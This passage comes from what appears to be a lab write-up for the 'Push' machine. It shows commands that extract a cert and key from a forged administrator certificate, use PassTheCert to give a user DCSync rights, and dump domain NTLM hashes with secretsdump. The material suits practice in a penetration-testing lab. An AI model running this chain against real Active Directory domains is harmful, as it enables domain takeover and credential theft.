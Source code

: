 ![_install](/assets/img/VL-Push/31.png)

This means that PKINIT is not supported, however we can bypass this by using [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) from AlmondOffSec. First extract the key and cert from the pfx using certipy:
```bash
certipy cert -pfx administrator_forged.pfx -nokey -out cert.crt
certipy cert -pfx administrator_forged.pfx -nocert -out cert.key
```
![_install](/assets/img/VL-Push/32.png)

Now we can use the PassTheCert python script to for elevate privileges for the "olivia.wood" user, so it can DCSync.

```bash
passthecert.py -action modify_user -crt cert.crt -key cert.key -domain push.vl -dc-ip 10.10.161.85 -target olivia.wood -elevate
```
![_install](/assets/img/VL-Push/33.png)

Finally we DCSync using secretsdump to get access to the NTLM hashes on the Domain Controller:
```bash
secretsdump.py PUSH.vl/olivia.wood:'DeployTrust07'@DC01.push.vl
```
![_install](/assets/img/VL-Push/34.png)
